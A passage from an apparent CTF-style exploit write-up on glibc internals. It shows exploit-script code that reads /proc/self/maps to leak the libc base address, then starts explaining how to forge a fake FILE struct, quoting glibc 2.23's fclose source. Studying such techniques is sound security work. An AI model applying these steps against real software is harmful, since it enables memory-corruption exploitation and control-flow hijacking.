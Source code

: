 ![](5e8193f54304800866d69179.png)

This would translate to the following in the exploit script:

```python
openfile('/proc/self/maps')
readfile()
readfile()

libc.address = int([x.split('-')[0] for x in writefile().split('\n') if x.endswith('.so')][0], 16)
```

## Faking a FILE struct

### Choosing the flags
If we simply create a file struct with only `vtable` set, we will receive a segfault. Looking at the source code of 
[`fclose`](https://elixir.bootlin.com/glibc/glibc-2.23/source/libio/oldiofclose.c#L36), we see multiple fields of the 
struct being dereferenced:

```c
int
attribute_compat_text_section
_IO_old_fclose (_IO_FILE *fp)
{
  int status;

  CHECK_FILE(fp, EOF);

  /* We desperately try to help programs which are using streams in a
     strange way and mix old and new functions.  Detect new streams
     here.  */
  if (fp->_vtable_offset == 0)
    return _IO_new_fclose (fp);

  /* First unlink the stream.  */
  if (fp->_IO_file_flags & _IO_IS_FILEBUF)
    _IO_un_link ((struct _IO_FILE_plus *) fp);

  _IO_acquire_lock (fp);
  if (fp->_IO_file_flags & _IO_IS_FILEBUF)
    status = _IO_old_file_close_it (fp);
  else
    status = fp->_flags & _IO_ERR_SEEN ? -1 : 0;
  _IO_release_lock (fp);
```